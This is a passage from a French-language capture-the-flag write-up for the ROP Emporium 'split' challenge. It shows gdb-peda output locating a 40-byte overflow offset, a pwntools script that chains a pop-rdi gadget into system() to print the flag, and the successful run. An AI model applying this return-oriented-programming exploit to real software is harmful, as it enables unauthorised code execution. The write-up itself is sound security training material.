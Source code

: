 ~~~bash
   0x400808 <usefulFunction+1>:	mov    rbp,rsp
   0x40080b <usefulFunction+4>:	mov    edi,0x4008ff
   0x400810 <usefulFunction+9>:	call   0x4005e0 <system@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe098 ("AA0AAFAAbAA1AAGAAcAA2AAH\n")
0008| 0x7fffffffe0a0 ("bAA1AAGAAcAA2AAH\n")
0016| 0x7fffffffe0a8 ("AcAA2AAH\n")
0024| 0x7fffffffe0b0 --> 0xa ('\n')
0032| 0x7fffffffe0b8 --> 0x7fffffffe188 --> 0x7fffffffe46f ("/root/rop_emporium/split/split")
0040| 0x7fffffffe0c0 --> 0x100000000 
0048| 0x7fffffffe0c8 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffe0d0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400806 in pwnme ()
gdb-peda$ x/wx $rsp
0x7fffffffe098:	0x41304141
gdb-peda$ pattern_offset 0x41304141
1093681473 found at offset: 40
~~~

Nous avons besoin de 40 octets de bourrage pour notre exploit : 

~~~python
#!/usr/bin/env python

from pwn import * 

junk = "A"*40
pop_rdi = p64(0x400883)
cat_str = p64(0x601060)
system = p64(0x4005e0)

p = process("./split")

payload = junk + pop_rdi + cat_str + system 

info("Send magic bytes in binary")

p.recvuntil(">")
p.sendline(payload)
out=p.recvline()
success(out)
~~~

Une fois lancé : 

~~~bash
root@kali:~/rop_emporium/split# python exploit.py 
[+] Starting local process './split': pid 23993
[*] Send magic bytes in binary
[+]  ROPE{a_placeholder_32byte_flag!}
[*] Stopped process './split' (pid 23993)
~~~
